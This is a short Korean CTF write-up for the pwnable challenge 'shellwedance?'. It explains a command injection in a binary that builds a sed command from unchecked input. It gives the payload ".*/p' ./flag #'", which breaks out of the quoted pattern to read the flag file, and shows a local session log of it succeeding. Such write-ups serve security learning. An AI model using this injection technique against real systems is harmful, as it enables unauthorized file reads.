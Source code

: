 ## No.26 Pwnable shellwedance?[300]

**점수:** 300

**분야:** Pwnable

**제목:** shellwedance?

**Description:**

> I'm looking at BigData. That's all
> 
> nc 223.194.105.182 48702
> Download : https://goo.gl/pH02H1

바이너리를 실행시켜보면 크게 `sed`와 `awk`의 인자를 입력할 수 있다. 

여기서 커맨드 인젝션이 가능한데 `awk`은 입력값에 대한 검사를 하기 때문에 검사가 없는 `sed`를 이용하여 공격한다.
 
2번 메뉴를 통해 공격하며 명령어 입력은 `sed '/%s/p' ./yeast.data` 의 형태로 받기 때문에 `.*/p' ./flag # '` 를 입력하면 아래와 같이 `flag` 파일을 읽을 수 있다.
 
대회 당시 미처 자료를 준비하지 못하여 로컬에서 공격한 기록을 남긴다.

```
Hello :D - Learning Data Parser
--------------------------
flag
shellwedance
--------------------------
 
select option
1. original data
2. sed(include)
3. sed(exclude)
4. sed&awk(conditional)
5. sed&awk(average)
6. awk(pattern&action)
7. exit
2
sed - Include Keyword:
.*/p' ./flag #'
sed -n '/.*/p' ./flag #'/p' ./yeast.data
THIS IS THE FLAG
```
